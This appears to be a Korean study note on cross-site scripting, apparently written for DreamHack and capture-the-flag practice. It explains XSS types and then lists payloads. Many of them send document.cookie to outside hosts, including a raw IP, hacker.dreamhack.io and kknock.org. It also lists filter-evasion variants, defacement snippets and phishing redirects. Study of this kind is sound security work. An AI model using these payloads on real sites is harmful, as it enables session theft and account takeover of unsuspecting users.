 # 기본개념
웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행시킴
특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있음
SOP 보안 정책이 등장하면서 서로 다른 오리진에서는 정보를 읽는 행위가 이전에 비해 힘들어졌지만
이를 우회하는 다양한 기술이 소개되면서 XSS 공격은 지속되고 있음


# XSS 종류
Stored XSS
XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS

Reflected XSS
XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS

DOM-based XSS
XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS
Fragment는 서버 요청/응답 에 포함되지 않음

Universal XSS
클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS


# 스크립트 예시
쿠키 및 세션 탈취 코드

```javascript
<script> new Image().src = 'http://211.250.216.249:7444/?cookie=' + document.cookie;</script>
<img src="nonexistent.jpg" onerror="new Image().src = 'http://211.250.216.249:7444/?cookie=' + document.cookie;">


<script src="http://malicious-domain.com/evil_script.js">
// "hello" 문자열 alert 실행
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

페이지 변조 공격 코드
```javascript
<script>
// 이용자의 페이지 정보에 접근
document;
// 이용자의 페이지에 데이터를 삽입
document.write("Hacked By DreamHack !");
</script>
```


위치 이동 공격 코드
```javascript
<script>
// 이용자의 위치를 변경
// 피싱 공격 등으로 사용됨
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기, 근데 잘 안되는 것 같음..
window.open("http://hacker.dreamhack.io/")
</script>
```


우회 코드
```javascript
<script>location.href="http://localhost:8080/?cookie="+document.cookie</script>
<img src=x onerror=this.src="http://localhost:8080/?cookie="+document.cookie>
<script>document.write("<img src=http://localhost:8080?cookie="+document.cookie+">")</script>
<script>document.write("<img style='display: none;' src=http://localhost:8080?cookie="+document.cookie+">")</script>
```


on, script, :javascript필터링 우회 시나리오
```javascript
<img src="/memo?memo='test'">
<script>location.href="/memo?memo="+document.cookie</script>
<sconript> document["locatio"+"n"].href="/memo?memo="+document.cookie </soncript>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="document['locatio'+'n'].href='/memo?memo='+document.cookie">
```


단순 공백 치환 우회는 이렇게 쉽게 우회할수 있음
location.href 처럼 어떤 객체의 속성값이 될 수 있다면 
document[location].href 이런식으로 더 노련하게 우회할 수 있음


# 주의할 점
``<script src="/vuln?param=alert(1)"></script>`와 
``<script>location.href="/vuln?param=alert(1)"</script>`는 동작이 다름

```chatgpt
<script src="/vuln?param=alert(1)"></script>: 이 코드는 /vuln?param=alert(1) URL에서 스크립트 파일을 로드하려고 시도합니다. 만약 웹 서버가 이 URL에 대한 스크립트 파일을 반환하면 브라우저는 해당 스크립트를 실행하고 alert(1)을 실행할 것입니다. 이는 XSS (Cross-Site Scripting) 공격의 일반적인 형태입니다.

<script>location.href="/vuln?param=alert(1)"</script>: 이 코드는 현재 페이지를 /vuln?param=alert(1)로 리다이렉트하는 JavaScript 코드입니다. 스크립트가 실행되면 현재 페이지의 URL이 /vuln?param=alert(1)로 변경되고, 브라우저는 이 URL로 이동하게 됩니다. 따라서 이 코드도 사용자에게 alert(1)을 실행시킬 수 있지만, 이것은 간접적인 방법으로 이루어지며 원래 페이지에서 다른 페이지로 이동하는 방식입니다.
```




# 실제 페이로드
### 더블 URL 인코딩 우회
```javascript
<script>location.href="/memo?memo="+document.cookie</script>
\u003Cscript\u003Elocation.href="/memo?memo="+document.cookie\u003C/script\u003E
\u003C\u003E
%253Cscript%253Elocation.href="/memo?memo="+document.cookie%253C/script%253E

<svg/onload=location['hr'+'ef']='/memo?memo='+document['cookie']>
```

### img태그의 onerror
```javascript
<script>location.href="/memo?memo="+document.cookie</script>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" onerror="location.href('/memo?memo='+document.cookie);">
<img src="3" onerror="location.href('/memo?memo=' + document.cookie);">

<svg/onload=location.href="/memo?memo="+document.cookie>
<svg/onload=location["href"]="/memo?memo="+document["cookie"]>
```

# on, script, :javascript필터링

```javascript
<img src="/memo?memo='test'">
<script>location.href="/memo?memo="+document.cookie</script>
<sconript> document["locatio"+"n"].href="/memo?memo="+document.cookie </soncript>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="document['locatio'+'n'].href='/memo?memo='+document.cookie">
```

# 기본적인 태그 우회
```javascript
<img src="" onerror="alert()">
<scrIpt>alert();</scripT>
<img src="" &#x6f;nerror="alert()">
<img src=about: onerror=alert(document.domain)>
<svg src=about: onload=alert(document.domain)>
<body onload=alert(document.domain)>
<video><source onerror=alert(document.domain)></video>
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
<iframe srcdoc='<img src=about: o&#110;error=parent.alert(document.domain)>'></iframe>
```

# hspace - turndown
https://github.com/mixmark-io/turndown/blob/master/src/turndown.js
```javascript
<script><script>location.href='https://kknock.org/'+document.cookie;<</script>/</script>script>
```
